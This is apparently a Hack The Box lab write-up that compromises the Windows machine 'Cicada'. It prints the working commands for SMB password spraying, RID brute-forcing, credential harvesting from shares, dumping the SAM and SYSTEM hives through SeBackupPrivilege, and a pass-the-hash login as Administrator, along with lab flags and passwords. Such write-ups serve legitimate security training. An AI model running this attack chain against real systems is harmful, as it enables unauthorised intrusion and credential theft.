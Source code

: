 
HTB : [[Machines]]

**IP:** 10.10.11.35  
**Date:** 08/01/2025

---

### **Enumeration**

#### **Nmap Scan Results**

- **OS:** Windows Server 2022
- **Open Ports:**
    - LDAP
    - Kerberos

#### **Nessus Scan Results**

- SMB service detected.

---

### **SMB Enumeration**

#### **Accessing SMB Shares**

- Discovered `HR` share accessible without a password.
- Found a notice with a default password:
    
    ```
    Welcome to Cicada Corp! We're thrilled to have you join our team.
    As part of our security protocols, it's essential that you change your default password to something unique and secure.
    
    Your default password is: Cicada$M6Corpb*@Lp#nZp!8
    ```
    

---

### **Initial Access Attempt**

#### **Testing SMB**

- Tested access using `netexec`:
    
    ```bash
    netexec smb 10.10.11.35
    ```
    

#### **Bruteforcing Usernames with Default Password**

- Attempted to brute-force common usernames with the found password:
    
    ```bash
    netexec smb 10.10.11.35 -u /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    
- Only guest access was obtained.

#### **RID Brute-forcing**

Used RID brute-forcing to enumerate valid users:

```bash
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

**Results:**

```plaintext
CICADA\Administrator (SidTypeUser)  
CICADA\Guest (SidTypeUser)  
CICADA\john.smoulder (SidTypeUser)  
CICADA\sarah.dantelia (SidTypeUser)  
CICADA\michael.wrightson (SidTypeUser)  
CICADA\david.orelious (SidTypeUser)  
CICADA\emily.oscars (SidTypeUser)  
```

---

### **Exploitation**

#### **Bruteforcing Valid Users**

- Stored the usernames in a `users.txt` file:
    
    ```plaintext
    Administrator  
    Guest  
    john.smoulder  
    sarah.dantelia  
    michael.wrightson  
    david.orelious  
    emily.oscars  
    ```
    
- Used the default password to brute-force the valid users:
    
    ```bash
    netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    

**Result:**  
`michael.wrightson` did not change his password.

#### **Enumerating Additional Users**

- Using `michael.wrightson`'s credentials:
    
    ```bash
    netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
    ```
    

**Result:**  
Discovered `david.orelious` and his password:

```plaintext
Password: aRt$Lp#7t*VQ!3
```

#### **Accessing SMB Shares**

Using `david.orelious`'s credentials to enumerate shares:

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

- Found the `DEV` share containing a **Backup Script** with `emily.oscars`' credentials:
    
    ```plaintext
    $username = "emily.oscars"
    $password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
    ```
    

#### **High-Privilege User: Emily Oscars**

- Checked `emily.oscars`' privileges:
    
    ```bash
    smbmap -H 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
    ```
    
- Verified access to `ADMIN$`.

---

### **Privilege Escalation**

#### **Gaining Reverse Shell**

Using `evil-winrm` to gain a reverse shell:

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

- **User Flag:**
    
    ```plaintext
    fd9eccbf79f5ca488f8f3bda29072e3a
    ```
    

#### **Checking Privileges**

Executed `whoami /priv`:

```plaintext
SeBackupPrivilege             Back up files and directories  Enabled  
SeRestorePrivilege            Restore files and directories  Enabled  
```

**Exploitation:**  
`SeBackupPrivilege` allows reading sensitive files.

---

### **Dumping SAM & SYSTEM Files**

#### **Steps:**

1. Navigate to the C drive and create a temporary folder:
    
    ```bash
    mkdir Temp
    ```
    
2. Save the SAM and SYSTEM files:
    
    ```bash
    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system
    ```
    
3. Download the files using `evil-winrm`:
    
    ```bash
    download sam
    download system
    ```
    

---

### **Extracting Hashes**

Used `pypykatz` to extract user hashes:

```bash
pypykatz registry --sam sam system
```

**Results:**

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

### **Root Access**

Used the NTLM hash to gain access as `Administrator`:

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

- **Root Flag:**
    
    ```plaintext
    d3d5f0aba09f6a5e7e52e9dfc57e3490
    ```
    

---

### **Summary:**

1. **Enumeration:** Discovered SMB shares and default credentials.
2. **Exploitation:** Used `netexec` and SMB enumeration to find valid credentials.
3. **Privilege Escalation:** Leveraged `SeBackupPrivilege` to dump sensitive files and extract hashes.
4. **Root Access:** Used NTLM hash to access the system as `Administrator`.
